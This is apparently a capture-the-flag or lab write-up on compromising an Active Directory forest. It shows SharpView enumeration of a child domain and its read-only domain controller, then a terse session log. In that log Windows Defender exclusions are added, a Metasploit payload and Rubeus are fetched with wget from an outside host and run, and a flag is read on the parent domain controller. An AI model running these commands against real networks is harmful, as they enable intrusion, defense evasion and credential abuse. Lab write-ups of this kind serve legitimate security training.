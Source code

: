 Instead, I will use [SharpView](https://github.com/tevora-threat/SharpView) to manually enumerate the domain. SharpView is a C# implementation of PowerView, and it can be used to perform a variety of domain enumeration tasks.

First, let's show the domains:

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-Domain -Domain factories.mammamia.local
Forest                         : mammamia.local
DomainControllers              : {mgmtdc.factories.mammamia.local, FACTRODC.factories.mammamia.local}
Children                       : {}
DomainMode                     : Unknown
DomainModeLevel                : 7
Parent                         : mammamia.local
PdcRoleOwner                   : mgmtdc.factories.mammamia.local
RidRoleOwner                   : mgmtdc.factories.mammamia.local
InfrastructureRoleOwner        : mgmtdc.factories.mammamia.local
Name                           : factories.mammamia.local
```

We will notice that the domain `factories.mammamia.local` is a child domain of the `mammamia.local` forest.

Furthermore, we have two domain controllers: `mgmtdc.factories.mammamia.local` and `FACTRODC.factories.mammamia.local`. Already now, we can assume that `FACTRODC` is a read-only domain controller (RODC) based on the name - but let's confirm this. To do so, we will dump information about all the domain computers (the output has been modified and truncated for brevity):

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-DomainComputer -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
[Get-DomainSearcher] search base: LDAP://mgmtdc.factories.mammamia.local/DC=factories,DC=mammamia,DC=local
[Get-DomainComputer] Get-DomainComputer filter string: (&(samAccountType=805306369))
objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1001}
useraccountcontrol             : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
name                           : mgmtdc
distinguishedname              : CN=mgmtdc,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local
samaccountname                 : mgmtdc$
memberof                       : {CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=factories,DC=mammamia,DC=local, CN=Cert Publishers,CN=Users,DC=factories,DC=mammamia,DC=local}
dnshostname                    : mgmtdc.factories.mammamia.local

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1118}
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : FACTWS
distinguishedname              : CN=FACTWS,OU=Valdoro,DC=factories,DC=mammamia,DC=local
samaccountname                 : FACTWS$
memberof                       : {CN=ValdoroComputers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
dnshostname                    : factws.factories.mammamia.local
msds-revealeddsas              : {CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local}

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1120}
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION, PARTIAL_SECRETS_ACCOUNT
name                           : FACTRODC
distinguishedname              : CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local
samaccountname                 : FACTRODC$
managedby                      : CN=ValdoroManagers,OU=Valdoro,DC=factories,DC=mammamia,DC=local
msds-krbtgtlink                : CN=krbtgt_48,CN=Users,DC=factories,DC=mammamia,DC=local
msds-revealedusers             : {CN=krbtgt_48,CN=Users,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTWS,OU=Valdoro,DC=factories,DC=mammamia,DC=local, CN=silvia.galli,OU=Valdoro,DC=factories,DC=mammamia,DC=local, [...]}
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      